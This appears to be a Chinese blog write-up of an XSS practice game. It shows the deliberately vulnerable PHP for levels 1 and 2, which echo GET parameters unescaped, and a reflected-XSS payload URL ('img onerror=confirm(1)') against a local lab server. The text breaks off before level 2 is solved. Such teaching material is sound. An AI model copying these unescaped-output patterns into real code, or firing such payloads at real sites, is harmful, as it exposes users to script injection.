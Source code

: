 ```yaml
---
title: XSS Game -1
date: 2017-11-17 13:20:46
tags:
		- XSS
categories:
		- Web安全

---
```


XSS 学习小游戏。



**1关**

代码如下


	<?php 
	ini_set("display_errors", 0);
	$str = $_GET["name"];
	echo "<h2 align=center>欢迎用户".$str."</h2>";
	?>

参数`name`没有任何的过滤，直接输出了。

	http://127.0.0.1:8000/xssgame/level1.php?name=<img src='1' onerror=confirm(1)>


![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/17-11-7/89413805.jpg)

源码内容

	<h2 align=center>欢迎用户<img src='1' onerror=confirm(1)>


[`onerror`事件](https://www.w3schools.com/jsref/event_onerror.asp)

	onerror 事件会在文档或图像加载过程中发生错误时被触发。


**2关**

代码。。搜索型`xss`

参数`keyword`取得的值，直接在`<input>`里面输出了，然后再传递给`htmlspecialchars`

	<?php 
	ini_set("display_errors", 0);
	$str = $_GET["keyword"];
	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
	<form action=level2.php method=GET>
	<input name=keyword  value="'.$str.'">
	<input type=submit name=submit value="搜索"/>
	</form>
	</center>';
	?>
